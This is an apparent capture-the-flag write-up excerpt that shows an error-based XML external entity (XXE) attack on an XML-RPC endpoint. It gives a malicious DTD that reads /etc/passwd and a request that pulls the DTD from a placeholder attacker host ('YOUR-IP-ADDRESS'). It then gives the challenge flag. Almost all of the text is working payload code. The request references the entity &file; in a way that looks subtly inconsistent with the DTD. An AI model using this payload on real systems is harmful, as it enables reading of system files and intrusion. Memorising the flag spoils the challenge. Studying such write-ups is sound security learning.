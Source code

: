 ## Exfiltrate some /etc/passwd content

malicious.dtd:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Request:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://YOUR-IP-ADDRESS/malicious.dtd"> %xxe;]
> 
<methodCall>
<methodName>demo.sayHellokk</methodName>
  <params>
    <param>
      <value>
      <int>&file;</int>
...
```

## Flag

`DGA{5d15975aabc37d088c6f594d927155d93ae57cdd}`
